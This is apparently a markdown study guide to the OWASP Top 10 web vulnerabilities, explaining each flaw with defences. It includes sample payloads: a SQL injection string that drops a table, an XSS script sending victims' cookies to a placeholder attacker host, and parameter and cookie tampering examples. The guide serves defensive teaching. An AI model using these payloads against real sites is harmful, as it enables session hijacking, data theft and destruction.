










## <a id="top"></a>**OWASP- Top 10 Vulnerabilities in web applications**

The <b>Open Web Application Security Project (OWASP)</b> is an online community produces freely-available articles, methodologies, documentation, tools, and technologies in the field of Web application security.

1. [Injection](#injection)
2. [Broken authentication and session management](#broken-authentication-and-session-management)
3. [Cross-site scripting(XSS)](#cross-site-scripting(XSS))
4. [Insecure direct object reference](#insecure-direct-object-reference)
5. [Security misconfigurations](#security-misconfigurations)
6. [Sensitive Data Exposure](#sensitive-data-exposure)
7. [Broken Access control](#broken-access-control)
8. [Insecure Deserialization](#insecure-deserialization)
9. [Using Components with Known Vulnerabilities](#component-vulnerabilities)
10. [Insufficient logging and monitoring](#Insufficient-logging-and-monitoring)


## **Injection**

SQL injection vulnerabilities enable malicious users to execute arbitrary SQL code on a database, allowing data to be accessed, modified, or deleted irrespective of the user's permissions. A successful injection attack might spoof identities, create new identities with administration rights, access all data on the server, or destroy/modify the data to make it unusable.

SQL injection types include Error-based SQL injection, SQL injection based on boolean errors, and Time-based SQL injection.



#### Understanding SQL Injection – to modify
The following code is intended to list all users with a particular name (userName) that has been supplied from an HTML form:
```
statement = "SELECT * FROM users WHERE name = '" + userName + "';"
```
If the user specifies a real name, the statement will work as intended. However, a malicious user could completely change the behavior of this SQL statement to the new statement in the following example, by simply specifying the text in bold for the userName.

```
SELECT * FROM users WHERE name = 'a';DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't';
```

Above statement is valid and deletes the users table and selects all data from the userinfo table (which reveals the information of every user). This works because the first part of the injected text (a';) completes the original statement.

To avoid this sort of attack, you must ensure that any user data that is passed to an SQL query cannot change the nature of the query. 

To avoid this we escape the ' character. The SQL will now interpret the name as the whole string in bold (which is a very odd name indeed, but not harmful).

```
SELECT * FROM users WHERE name = 'a\';DROP TABLE users; SELECT * FROM userinfo WHERE \'t\' = \'t';
```

#### Common Defences Against Injection Attacks

##### Whitelist untrusted data
* What input do we trust?
* Does it adhere to expected patterns?

##### Parameterise SQL statements
* Separate the query from the input data
* Type cast each parameter

##### Fine tune DB
* Segment amount from admin and public
* Apply the “principle of least privilege”

## **Broken authentication and session management**
“Broken authentication occurs when the application mismanages session related information such that the user’s identity gets compromised. The information can be in the form of session cookies, passwords, secret keys etc.”

The aim here is to either get into someone else’s session or use a session which has been ended by the user or steal session related information. Let’s check a few scenarios. 



#### Understanding Hijacking

##### 1. URL rewriting
A travel reservations application supports URL rewriting, putting session IDs in the URL.

```
http://example.com/sale/saleitems;jsessionid=2P0OC2JSNDLPSKHCJUN2JV?dest=Hawaii

An authenticated user of the site wants to let their friends know about the sale. The user e-mails the link above without realizing they are also giving away their session ID. When the friends use the link they use the user’s session and credit card.
```

##### 2. Application’s timeout is not set properly
The user utilizes a public computer to access a site. Instead of selecting “logout” the user simply closes the browser tab and walks away. An attacker uses the same browser an hour later, and that browser is still authenticated.

##### 3. Passwords are not properly hashed and salted
An insider or external attacker gains access to the system’s password database. User passwords are not properly hashed and salted, exposing every user’s password.

##### 4. Predictable login credentials
Username and Password values that are easy to guess or that are used frequently can be guessed by attackers to obtain unauthorized access.

#### Common Defences Against Broken Authentication
##### Protect the cookies
* Use the HttpOnly flag
* Make sure they’re flagged as “secure”

##### Decrease the window of risk 
* Expire sessions quickly
* Re-challenge the user on key actions
* Session isolation

##### Harden the account management
* Allow(and encourage) strong passwords
* Implement login rate limiting and lockouts
* Use of multifactor authentication

## **Cross-site scripting(XSS)**
 Cross-site scripting occurs when an attacker is able to insert untrusted data/scripts into a web page. The data/scripts inserted by the attackers get executed in the browser can steal users data, deface websites etc.


#### **Types of XSS**
The goal of an XSS attack is always to execute malicious JavaScript in the victim's browser, there are few fundamentally different ways of achieving that goal. XSS attacks are often divided into three types:

**Persistent XSS:-**
In this case malicious string originates from the website's database.

**Example:-**

In this example, we will assume that the attacker's ultimate goal is to steal the victim's cookies by exploiting an XSS vulnerability in the website. This can be done by having the victim's browser parse the following HTML code:
```
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
This script navigates the user's browser to a different URL, triggering an HTTP request to the attacker's server. The URL includes the victim's cookies as a query parameter, which the attacker can extract from the request when it arrives to his server. Once the attacker has acquired the cookies, he can use them to impersonate the victim and launch further attacks.

From now on, the HTML code above will be referred to as the malicious string or the malicious script. It is important to note that the string itself is only malicious if it ultimately gets parsed as HTML in the victim's browser, which can only happen as the result of an XSS vulnerability in the website.

#### How it works


1. The attacker uses one of the website's forms to insert a malicious string into the website's database.

2. The victim requests a page from the website.

3. The website includes the malicious string from the database in the response and sends it to the victim.

4. The victim's browser executes the malicious script inside the response, sending the victim's cookies to the attacker's server.

**Reflected XSS:-**
In this case malicious string originates from the victim's request.
In a reflected XSS attack, the malicious string is part of the victim's request to the website. The website then includes this malicious string in the response sent back to the user. The diagram below illustrates this scenario:

#### How it works

1. The attacker crafts a URL containing a malicious string and sends it to the victim.

2. The victim is tricked by the attacker into requesting the URL from the website.

3. The website includes the malicious string from the URL in the response.

4. The victim's browser executes the malicious script inside the response, sending the victim's cookies to the attacker's server.

**DOM-based XSS:-**
In this case the vulnerability is in the client-side code rather than the server-side code.
DOM-based XSS is a variant of both persistent and reflected XSS. 

In a DOM-based XSS attack, the malicious string is not actually parsed by the victim's browser until the website's legitimate JavaScript is executed. The diagram below illustrates this scenario for a reflected XSS attack:

#### How it works

The attacker crafts a URL containing a malicious string and sends it to the victim.

The victim is tricked by the attacker into requesting the URL from the website.

The website receives the request, but does not include the malicious string in the response.

The victim's browser executes the legitimate script inside the response, causing the malicious script to be inserted into the page.

The victim's browser executes the malicious script inserted into the page, sending the victim's cookies to the attacker's server.

#### Common Defences Against XSS Attacks
**Encoding**, which escapes the user input so that the browser interprets it only as data, not as code.

**Validation**, which filters the user input so that the browser interprets it as code without malicious commands.

**Context:** Secure input handling needs to be performed differently depending on where in a page the user input is inserted.

**a) Input handling contexts:**
There are many contexts in a web page where user input might be inserted. For each of these, specific rules must be followed so that the user input cannot break out of its context and be interpreted as malicious code. Below are the most common contexts:

**Inbound/outbound:** Secure input handling can be performed either when your website receives the input (inbound) or right before your website inserts the input into a page (outbound).



**Client/server:** Secure input handling can be performed either on the client-side or on the server-side, both of which are needed under different circumstances.

## **Insecure direct object reference**

 A direct object reference occurs when a developer exposes a reference to an internal implementation object, such as a file, directory or database key. Without an access control check or other protection, attackers can manipulate these references to access unauthorized data.
#### Understanding Direct Object References
Below are several typical scenarios for this vulnerability.
1. The value of a parameter is used directly to retrieve a database record

```
http://foo.bar/somepage?invoice=12345
```
In this case, the value of the invoice parameter is used as an index in an invoices table in the database. The application takes the value of this parameter and uses it in a query to the database. The application then returns the invoice information to the user.


Since the value of invoice goes directly into the query, by modifying the value of the parameter it is possible to retrieve any invoice object, regardless of the user to whom the invoice belongs.

2. The value of a parameter is used directly to perform an operation in the system
```
http://foo.bar/changepassword?user=someuser
```
In this case, the value of the user parameter is used to tell the application for which user it should change the password. In many cases this step will be a part of a wizard, or a multi-step operation. In the first step the application will get a request stating for which user's password is to be changed, and in the next step the user will provide a new password (without asking for the current one).

The user parameter is used to directly reference the object of the user for whom the password change operation will be performed

3. The value of a parameter is used directly to retrieve a file system resources
```
http://foo.bar/showImage?img=img00011
```
In this case, the value of the file parameter is used to tell the application what file the user intends to retrieve. By providing the name or identifier of a different file (for example file=image00012.jpg) the attacker will be able to retrieve objects belonging to other users.

4. The value of a parameter is used directly to access application functionality
```
http://foo.bar/accessPage?menuitem=12
```
In this case, the value of the menuitem parameter is used to tell the application which menu item (and therefore which application functionality) the user is attempting to access. Assume the user is supposed to be restricted and therefore has links available only to access to menu items 1, 2 and 3. By modifying the value of menuitem parameter it is possible to bypass authorization and access additional application functionality.

5. Tampering a hidden field parameter
```
<input type="hidden" id="product-1" name="cost" value="70.00" />
```
In this case attacker could modify value parameter in a e-commerce web page and take advantage of this attack.
#### Common Defences Against Direct Object References
#### Access control check

The application should perform an access control check to ensure the user is authorized for the request object or service:

* Use instance-based security features, used for specifying access control lists applicable to domain objects.
* On render time, store data values in session and on submit check the recieves values with stored values.
* Check in the data base that the data sent by the user is genuine. For example, if the user sends an account number, perform a JOIN operation between ACCOUNT and USER tables to check that the given account belongs to the user. In most cases, this requires a JOIN operation between multiple tables.

#### Input validation
Always check user input before using it because evil input is the root of cause of this type of threat. There must be validation performed in server side, since client-side validation cannot guarantee evil input to be avoided.
## **Security misconfigurations**


#### Understanding Security Missconfigurations

* Missing appropriate security hardening across any part of the application stack, or improperly configured permissions on cloud services.
* Unnecessary features are enabled or installed (e.g. unnecessary ports, services, pages, accounts, or privileges).
* Default accounts and their passwords still enabled and unchanged.
* Error handling reveals stack traces or other overly informative error messages to users.
* For upgraded systems, latest security features are disabled or not configured securely.
* The security settings in the application servers, application frameworks (e.g. Struts, Spring, ASP.NET), libraries, databases, etc. not set to secure values.
* The server does not send security headers or directives or they are not set to secure values.
* The software is out of date or vulnerable

#### Common Defences Against Direct Object References
Secure installation processes should be implemented, including:

* A repeatable hardening process that makes it fast and easy to deploy another environment that is * properly locked down. Development, QA, and production environments should all be configured identically, with different credentials used in each environment. This process should be automated to minimize the effort required to setup a new secure environment.
* A minimal platform without any unnecessary features, components, documentation, and samples. Remove or do not install unused features and frameworks.
* A task to review and update the configurations appropriate to all security notes, updates and patches as part of the patch management process. In particular, review cloud storage permissions.
* A segmented application architecture that provides effective, secure separation between components or tenants, with segmentation, containerization, or cloud security groups (ACLs).
* Sending security directives to clients, e.g. Security Headers.
* An automated process to verify the effectiveness of the configurations and settings in all environments.

## **Sensitive Data Exposure**
Sensitive Data Exposure occurs when an application does not adequately protect sensitive information. The data can vary and anything from passwords, session tokens, credit card data to private health data and more can be exposed.



#### Understanding Sensitive Data Exposure
* Data stored in plain text, such as passwords or credit card data.
* Lack of HTTPS on authenticated pages.
* Hashed passwords with lack of strong crypto algorithms and making the password easily cracked.
* Tokens disclosed in public source code.
#### Common Defences Against Sensitive Data Exposure
The first step is to figure out what data can be considered sensitive and therefore important to protect.

* Apply HTTPS everywhere.
* The data is never stored in clear text.
* The data is never transmitted in clear text. Example between database and server, or over the internet.
* Use the latest encrytion algorithms.
* The generation of the keys is secure.
* Browser headers are set to not cache when the sensitive data is presented to end-user.
* Disable autocomplete on forms that collect data.
* Disable caching on forms that collect data.

## **Broken Access Control**
“Broken access control occurs if a user is able to access unauthorized resources, this can be access to restricted pages, database, directories etc.”

Applications have various account types depending on the users: admins, operators and reporting groups etc. One common problem is that the developers restrict the privileges just on the UI side and not on the server side. If exploited, each user can have admin rights.



#### Understanding Broken Access Controls
Below are the examples of 2 users “Jsmith and admin user”. Jsmith does not have rights to edit the users but an admin has the rights for that. This can be verified by the privileges shown ion the left side for each user. 



The vulnerability is that the user jsmith can directly hit the edit users page’s URL and edit the users, even though he is not the admin. 



#### Common Defences Against Broken Access Control
* Invalidate tokens and cookies after logout.
* Forced login/logout after a password change.
* Server side resource restriction e.g. directories.
* Restrict access to all resources basis roles.
* Forced Browsing Past Access Control Checks – many sites require users to pass certain checks before being granted access to certain URLs that are typically ‘deeper’ down in the site. These checks must not be bypassable by a user that simply skips over the page with the security check.

## **Insecure Deserialization**
Some of the applications save data on the client side and they may be using object serialization. Applications which rely on the client to maintain state may allow tampering of serialized data. This is a new entry in the list and is difficult to exploit. 

#### Understanding Insecure Deserialization

Altering the serialized objects in the cookies for privilege escalation.

X: x :{ z: z:”NAME”: r:”USER”} -->> Normal cookie
X: x :{ z: z:”NAME”: r:”ADMIN”} -->> Altered cookie object

#### Common Defences Against Insecure Deserialization
* Encryption of the serialized data.
* Deserializers to run with least privileges

## **Using Components with Known Vulnerabilities**

If any components with known vulnerabilities are used by the application, this may lead to security breaches or server takeover. The components can be coding frameworks, libraries, vulnerable functions, network frameworks etc.

**Example**

* Use of vulnerable PHP version
* Out-dated kernel version – Linux
* Unpatched windows. 
* Vulnerable jQuery version
* Circumvent access control
* Local file inclusion
* SQL injection, XSS or CSRF
* Vulnerable to brute force login

#### Understanding Components With Known Vulnerabilities



#### Common Defences Against Components With Known Vulnerabilities

* Frequent patching process.
* Keep track of components and versions.
* Use the framework’s package management
* Regularly monitor new releases and update them.
* Subscribe to various forums which share the latest vulnerabilities along with the CVE numbers and mitigation techniques/fixes. Check if the vulnerability affects the devices/software in your inventory and fix them.
## **Insufficient logging and monitoring**
With all the countermeasures in place attacks still happen and that gets noticed only after an incident has happened. If undetected the attackers could have compromised the systems long back and gained persistence. 

To ensure the malicious intent of the attackers gets noticed beforehand, it is essential to log all the activity and monitor it for any suspicious behavior. 

#### Common Defences Against Insufficient logging and monitoring

* 24x7 monitoring of application traffic and log analysis.
* Effective Security Incident and response procedures to be in place and practice. 


##### Below is a comparison of top 10 vulnerabilities of 2013 vs 2017. Do check for all of them as some of them may have trickled down the list but still be present.
[](https://www.greycampus.com/blog/information-security/owasp-top-vulnerabilities-in-web-applications)

https://www.indusface.com/blog/owasp-top-vulnerabilities

<a href="#top" style="position: fixed;bottom: 30px;right: 30px;outline: none;">Back to top</a>